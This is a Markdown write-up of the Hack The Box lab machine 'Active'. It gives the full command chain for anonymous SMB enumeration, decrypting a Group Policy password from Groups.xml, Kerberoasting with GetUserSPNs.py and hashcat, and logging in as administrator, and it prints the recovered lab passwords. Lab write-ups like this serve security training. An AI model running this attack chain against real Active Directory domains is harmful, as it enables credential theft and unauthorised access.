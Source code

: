 ```yaml
---
title: HTB - active
date: 2024-08-05 10:00:00
categories:
  - Pentesting
  - Writeups
  - HTB
tags:
  - Pentesting
  - Writeups
  - HTB
  - 
toc: true
---
```

> **Main steps**: 
    - SMB shares
    - `groups.xml`
    - SharpHound
    - BloodHound
    - Kerberoast

> **services used**: 
    - SMB
    - HTTP
    - Kerberos
    - NTP
    - MSRPC
    - LDAP

---
<!-- more -->

<br>

**OS**: `Windows`
**Difficulty**: `easy`
**IP**: `10.10.10.100`

> **Interesting**: 


## Loot

Credentials
| username | password | hash | service used |
| --- | --- | --- | --- |
|  |  |  |  |
|  |  |  |  |


<br>

## 1. Preparation
```bash Dedicated directory for the target machine
mkdir -p ~/HTB/active
```
```bash Prepare the environment variables
export domain=example.com
export IP=10.10.10.100
export URL=http://$IP
# remember to add odd web ports (8080,8000,8008) and https if needed
```
```bash Prepare files and directories
mkdir vulns recon files notes
touch notes/{notes.txt,users.txt,passwords.txt,hashes.txt,creds.txt}
```

<br>

## 2. Reconnaissance 
```bash Nmap intelligent scan
# initial scan
nmap -Pn -p- --open --max-retries 5 --min-rate 10000 $IP --oA recon/nmap.init
# extract open ports
cat recon/nmap.init | grep '/.*open'| cut -d '/' -f 1| tr '\n' ', '| sed 's/.$//g' > recon/ports;
# full scan on open ports
sudo nmap -Pn -sV -n -v -A -T4 -p $(cat recon/ports) $IP -oA recon/nmap.alltcp
```
```bash Nmap vuln scan (with open ports)
nmap --script vulners -Pn -sC -sV -v -A -T4 -p $(cat recon/ports) $IP -oA recon/nmap.vuln
```
```bash Nmap UDP scan (takes long)
nmap -sCVU -n -F -T4 $IP -oA recon/nmap.udp
```

<br>

## 3. Enumeration

### Port 139,445/TCP - SMB
```bash
enum4linux -a 10.10.10.100

smbmap -H 10.10.10.100

smbclient //10.10.10.100/Replication -U ""%""
```
```bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 16:46:06 2018
```
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# GPPstillStandingStrong2k18
```
```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```
```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

<br>

## 4. Exploitation
```bash
smb: \SVC_TGS\desktop\> get user.txt
```
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```
```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

<br>

## 5. Internal enumeration

<br>

## 6. Privilege escalation

```bash
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```
```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968

smb: \> get \users\administrator\desktop\root.txt
```

<br>

---
---